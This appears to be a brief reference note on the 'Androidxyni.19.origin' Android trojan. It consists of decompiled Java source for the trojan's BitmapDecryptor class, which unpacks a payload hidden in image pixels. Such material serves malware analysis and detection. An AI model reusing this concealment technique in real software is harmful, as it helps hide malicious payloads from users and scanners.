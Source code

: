 ```yaml
---
created: 2021-05-07T02:24:53-04:00
modified: 2021-05-07T02:26:38-04:00
---
```


# Androidxyni.19.origin Trojan

Code  Expand source 
package com.wch.c_direct.encrypt.logic;
import android.graphics.Bitmap;
import android.graphics.BitmapFactory;
import com.wch.c_direct.logic.a;
import java.io.InputStream;
import java.util.Arrays;
public final class BitmapDecryptor {
    public static byte[] decrypt(InputStream inputStream) {
        int i5;
        int i = 4;
        int i1 = 8;
        a.a();
        Bitmap bitmap0 = BitmapFactory.decodeStream(inputStream);
        bitmap0.setHasAlpha(true);
        byte[] buffer1 = new byte[i1];
        int i2 = 0;
        int i3 = 0;
        int i4 = 0;
        while(i2 < buffer1.length) {
            i5 = bitmap0.getPixel(i4, i3);
            buffer1[i2] = ((byte)(i5 >> 16 & 15));
            if(i2 + 1 < i1) {
                buffer1[i2 + 1] = ((byte)(i5 >> 8 & 15));
            }
            if(i2 + 2 < i1) {
                buffer1[i2 + 2] = ((byte)(i5 & 15));
            }
            ++i4;
            if(i4 == bitmap0.getWidth()) {
                ++i3;
                i4 = 0;
            }
            i2 += 3;
        }
        byte[] buffer2 = BitmapDecryptor.a(buffer1);
        i2 = 0;
        i3 = 0;
        while(i2 < i) {
            i3 = i3 << 8 | buffer2[i2] & 255;
            ++i2;
        }
        buffer1 = new byte[i3 * 8 / 4];
        i2 = 0;
        i3 = 0;
        i4 = 0;
        while(i2 < buffer1.length) {
            i5 = bitmap0.getPixel(i4, i3);
            buffer1[i2] = ((byte)(i5 >> 16 & 15));
            if(i2 + 1 < buffer1.length) {
                buffer1[i2 + 1] = ((byte)(i5 >> 8 & 15));
            }
            if(i2 + 2 < buffer1.length) {
                buffer1[i2 + 2] = ((byte)(i5 & 15));
            }
            ++i4;
            if(i4 == bitmap0.getWidth()) {
                ++i3;
                i4 = 0;
            }
            i2 += 3;
        }
        byte[] decrypted = BitmapDecryptor.a(buffer1);
        bitmap0.recycle();
        return Arrays.copyOfRange(decrypted, i, decrypted.length);
    }
    private static byte[] a(byte[] inBuffer) {
        a.a();
        byte[] outBuffer = new byte[inBuffer.length / 2];
        int i;
        for(i = 0; i < outBuffer.length; ++i) {
            int i1;
            for(i1 = 0; i1 < 2; ++i1) {
                outBuffer[i] = ((byte)(outBuffer[i] << 4 | inBuffer[i * 8 / 4 + i1]));
            }
        }
        return outBuffer;
    }
}